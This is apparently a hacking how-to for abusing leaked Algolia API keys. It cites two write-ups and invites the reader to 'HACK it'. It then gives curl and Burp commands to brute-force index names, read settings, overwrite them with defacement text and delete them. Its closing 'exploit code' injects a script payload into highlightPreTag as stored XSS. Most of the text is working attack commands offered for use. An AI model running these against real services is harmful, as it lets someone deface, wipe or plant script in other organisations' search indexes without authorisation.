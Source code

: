 ## How to Exploit:
* https://shahjerry33.medium.com/api-misconfiguration-algolia-api-key-b3f4a9f04f0d
* https://www.secjuice.com/api-misconfiguration-data-breach/

If you got a Algolia API key, that's great dude....! Let's HACK it.

* First, You need an API Key, an app ID, and an index name. (If you do not have an index name, then try brute force.)
  In my case, I have only an API key and an app ID, So I brute-forced and then found the index name.
  
### In curl command:
~~~
curl "https://J<App Id>-dsn.algolia.net/1/keys/<API key>?x-algolia-application-id=<App Id>&x-algolia-api-key=<API key>" | jq
~~~
From this command you will only get some informations. After getting the Index name:

### In Burpsuite:
~~~
GET /1/indexes/<Index name>/settings HTTP/1.1
Host: <AppID>-1.algolianet.com
x-algolia-api-key: <api key>
x-algolia-application-id: <App Id>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
~~~
Using the above request, you can get lots of information about the target.


### Exploitable:
Here are the corresponding HTTP verbs for each operation:

* Create: HTTP POST
* Read: HTTP GET
* Update: HTTP PUT or HTTP PATCH
* Delete: HTTP DELETE

#### In POST Method:
```
curl -X POST --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings --header ‘content-type: application/json’ --header ‘x-algolia-api-key: <API-key>’ --header ‘x-algolia-application-id: <App-Id>>’ --data ‘{“highlightPreTag”: “Hacked by hackerhijeck”}’
```
#### In GET Method:
```
curl --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings --header ‘content-type: application/json’ --header ‘x-algolia-api-key: <API-key>’ --header ‘x-algolia-application-id: <App-Id>’
```
#### In PUT Method:
```
curl -X PUT --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings --header ‘content-type: application/json’ --header ‘x-algolia-api-key: <API-Key>’ --header ‘x-algolia-application-id: <App-Id>’ --data ‘{“highlightPreTag”: “Hacked by hackerhijeck”}’
```
#### In PATCH Method:
```
curl -X PATCH --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings --header ‘content-type: application/json’ --header ‘x-algolia-api-key: <API-key>’ --header ‘x-algolia-application-id: <App-Id>’ --data ‘{“highlightPreTag”: “Hacked by hackerhijeck”}’
```
#### In DELETE Method:
```
curl -X DELETE --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings --header ‘content-type: application/json’ --header ‘x-algolia-api-key: <API-key>’ --header ‘x-algolia-application-id: <App-Id>’ --data ‘{“highlightPreTag”: “Hacked by hackerhijeck”}’
```
#### Exploit Code using Curl Command:
```
curl --request PUT \
  --url https://<App-Id>-1.algolianet.com/1/indexes/<Index-name>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <API-key>' \
  --header 'x-algolia-application-id: <App-Id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```
